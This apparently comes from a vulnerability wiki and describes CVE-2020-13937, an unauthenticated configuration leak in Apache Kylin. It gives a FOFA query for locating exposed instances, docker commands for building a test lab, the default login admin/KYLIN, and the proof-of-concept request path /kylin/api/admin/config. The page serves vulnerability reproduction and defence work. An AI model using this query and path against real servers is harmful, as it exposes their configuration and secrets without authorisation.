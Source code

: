 ```yaml
---
title: Apache Kylin config Unauthorized configuration leak CVE-2020-13937
---
```


# Apache Kylin config Unauthorized configuration leak CVE-2020-13937

## Vulnerability Description

Apache Kylin has a restful API that exposes configuration information without any authentication

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUta3lsaW4i">FOFA: app="APACHE-kylin"</a-button>
</a-checkbox>

## Environment construction


</a-alert>

```bash
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

After opening, log in with the default account password admin/KYLIN. The initial interface appears. Success

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/kylin-1.png)



## 

## Vulnerability reappears

Vulnerability Verification POC

```
/kylin/api/admin/config
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220306140151412.png)